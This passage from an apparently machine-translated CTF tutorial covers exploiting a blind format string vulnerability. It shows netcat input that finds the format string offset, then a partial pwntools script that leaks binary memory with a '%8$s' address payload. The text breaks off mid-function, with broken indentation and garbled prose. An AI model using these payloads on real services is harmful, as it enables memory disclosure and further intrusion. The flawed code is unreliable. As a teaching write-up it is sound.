 
This time, I didn&#39;t show it back. I tried it again and found that there was nothing wrong with it. Then we had to leak a wave of source programs.


#### Determining the offset


Before the leak procedure, we still have to determine the offset of the format string, as follows


```shell

➜  blind_fmt_got git:(master) ✗ nc localhost 9999

aaaaaaaa%p%p%p%p%p%p%p%p%p

aaaaaaaa0x7ffdbf920fb00x800x7f3fc9ccd2300x4006b00x7f3fc9fb0ab00x61616161616161610x70257025702570250x70257025702570250xa7025

```



Based on this, we can know that the starting address offset of the format string is 6.


#### leaking binary


Since the program is 64-bit, we started leaking from 0x400000. In general, blind typing with a format string vulnerability can be read into the &#39;\x00&#39; character, otherwise it can&#39;t be revealed how to play, after that, the output must be truncated by &#39;\x00&#39;, this is because The output functions of the format string exploit are truncated by &#39;\x00&#39;. . So we can use the leak code below.


```python

##coding=utf8

from pwn import *



##context.log_level = 'debug'

ip = "127.0.0.1"

port = 9999





def leak(addr):

    # leak addr for three times

num = 0
    while num < 3:

        try:

            print 'leak addr: ' + hex(addr)

            sh = remote(ip, port)

            payload = '%00008$s' + 'STARTEND' + p64(addr)

#说明有\n, a new line appears
```
